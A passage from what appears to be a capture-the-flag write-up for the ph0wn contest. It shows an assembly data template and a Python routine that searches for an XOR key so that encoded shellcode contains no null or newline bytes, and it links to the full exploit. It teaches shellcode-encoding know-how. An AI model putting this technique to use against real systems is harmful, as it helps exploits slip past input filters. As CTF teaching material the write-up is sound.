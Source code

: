 ```
KEYLEN: .byte ${KEYLEN}
.byte 0xff
.byte 0xff
.byte 0xff

.align
KEY: ${KEY}
.align
DATA: 
.byte 0xaa
.byte 0xaa
.byte 0xaa
.byte 0xaa
.byte 0xaa
.byte 0xaa
.byte 0xaa
.byte 0xaa

```



Finally, before we can stitch everything together, it remains to select a passphrase that makes the encoded shellcode valid.

{% highlight python %}
# find the key byte by byte

KEYLEN = 8
key=bytearray([0]* KEYLEN)
for i in range(KEYLEN):
  sx = set() # gather all bytes that will be encoded by the key i-th byte.
  for p in range(i, len(content), KEYLEN):
    sx.add(content[p])

  bad = set([0, 0xa]) # bytes that are invalid

  for cnd in range(256): # try every possible key byte
    if cnd in bad: continue # the key will end up in the shellcode as is.
    # thus it must not contain invalid bytes
    for v in sx:
      if (cnd ^v) in bad: break
    else:
      key[i] = cnd
      break
  else:
    assert 0
print('Selecting key ', key)
{% endhighlight %}


And that's all.
Stiching up all the pieces is not really the interesting part, you can find the details in the code on [github](https://github.com/unjambonakap/ctf/blob/master/ph0wn/exploit/main.py). The function *test2* is the one, *test_payload* simulates the execution with Unicorn engine.

